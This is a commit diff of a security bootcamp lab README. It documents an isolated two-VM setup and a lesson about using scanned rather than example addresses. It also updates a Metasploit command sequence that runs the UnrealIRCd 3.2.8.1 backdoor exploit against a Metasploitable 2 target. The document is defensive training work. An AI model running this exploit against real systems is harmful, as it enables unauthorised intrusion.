

Before and after one commit to uzairr-arif/pseb-deploy-bootcamp-dfcs, a Markdown page: s11-bruteforce-and-cracking/README.md, the part around one of its changes. Rendered like a GitHub page; pictures changed too: s11-bruteforce-and-cracking/Figures/s11-11-dual-adapter.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
S11: embed dual-adapter proof, document wrong-IP lesson, real lab addresses

````diff
--- a/s11-bruteforce-and-cracking/README.md
+++ b/s11-bruteforce-and-cracking/README.md
@@ -177,20 +177,22 @@ Modern archives encrypt with AES-256, which john reports as `$zip2$`. Every gues
 
 ## The dual-adapter lab
 
-| VM | Adapter 1 | Adapter 2 |
-|---|---|---|
-| Kali (attacker) | NAT, internet access for tooling | Host-only, lab segment |
-| Metasploitable 2 (target) | disabled | Host-only, lab segment |
+| VM | Adapter 1 | Adapter 2 | Lab address |
+|---|---|---|---|
+| Kali (attacker) | NAT, internet access for tooling | Host-only | `192.168.56.103` |
+| Metasploitable 2 (target) | disabled | Host-only | `192.168.56.102` |
 
-The target therefore has no internet-facing adapter at all. Isolation confirmation: from Kali, `ping -c 2 8.8.8.8` succeeds while the target answers only on the host-only segment, and the host-only network exists purely inside my host, so no device on my real LAN can reach the target.
+The target has no internet-facing adapter at all, and the host-only network exists only inside my host, so nothing on my real LAN can reach it.
 
 ```bash
-ping -c 2 8.8.8.8             # internet: succeeds
-ip -br addr show              # both adapters listed
-ping -c 2 192.168.56.10X      # target on the host-only segment
+ip -br addr show                  # eth0 10.0.2.4 (NAT) + eth1 192.168.56.103 (host-only)
+ping -c 2 8.8.8.8                 # succeeds: internet for tooling
+nmap -sn 192.168.56.0/24          # sweep finds the target at 192.168.56.102
 ```
 
 ![S11-11: dual-adapter layout and isolation proof](Figures/s11-11-dual-adapter.png)
+
+**A lesson from this run:** my first isolation ping used the handout's example address, 192.168.56.101, where no host existed: `Destination Host Unreachable`, 100 percent loss. The sweep above had already found the real target at 192.168.56.102. Lesson recorded: take addresses from your own sweep, never from example text.
 
 ## Reproduction
 
@@ -198,11 +200,11 @@ ping -c 2 192.168.56.10X      # target on the host-only segment
 msfconsole -q
 search unrealircd
 use 0                        # exploit/unix/irc/unreal_ircd_3679_exec
-show options
-set RHOSTS 192.168.56.10X    # target host-only address
+set RHOSTS 192.168.56.102
 set RPORT 6697
 exploit
-id
 ```
 
+My first exploit attempt targeted the stale example address: nothing was listening there, no session opened, and the commands I typed fell back to my own Kali shell. I corrected the address and reran.
+
 ```text
````
Also changed, not shown: other parts of s11-bruteforce-and-cracking/README.md (+2 -2 lines), 1 other file.
